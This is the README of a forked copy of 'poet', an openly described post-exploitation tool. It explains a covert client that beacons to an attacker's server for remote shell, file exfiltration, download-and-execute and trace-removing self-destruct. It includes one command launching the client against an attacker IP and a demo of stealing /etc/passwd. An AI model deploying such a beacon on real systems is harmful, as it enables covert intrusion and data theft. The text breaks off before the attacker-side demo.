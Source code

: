 I've forked this project to experiment with the code.  Recommend using the original.

## To do

* update server to accept multiple connections
* implement web interface of some sort
* beacons should be as self-contained as possible.  Minimize module use.  Another language, possibly?  Needs research.

Original README.md follows.

# poet

A simple POst-Exploitation Tool.

## overview

The client program runs on the target machine and is configured with an IP
address (the server) to connect to and a frequency to connect at. If the server
isn't running when the client tries to connect, the client quietly sleeps and
tries again at the next interval. If the server is running however, the
attacker gets a control shell to control the client and perform various actions
on the target including:

- reconnaissance
- remote shell
- file exfiltration
- download and execute
- self destruct

## demo

This is just a small sample of what Poet can do.

The scenario is, an attacker has gotten access to the victim's machine and
downloaded and executed the client.  She does not have
the server running at this point, but it's ok, the client waits patiently.
Eventually the attacker is ready and starts the server, first starting a shell
and executing `uname -a`, then exfiltrating `/etc/passwd`. Then she exits
and detaches from the client, which continues running on the target waiting for
the next opportunity to connect to the server. Later, she connects again,
self-destructing the client, removing all traces from the target.

Victim's Machine (5.4.3.2):

```
$ ./poet-client 1.2.3.4 10  # poet-client daemonizes, so there's nothing to see
```

> Warning: After running this command, you'll need to either run `selfdestruct`
> from the server, or kill the `poet-client` process to stop the client.

Attacker's Machine (1.2.3.4):
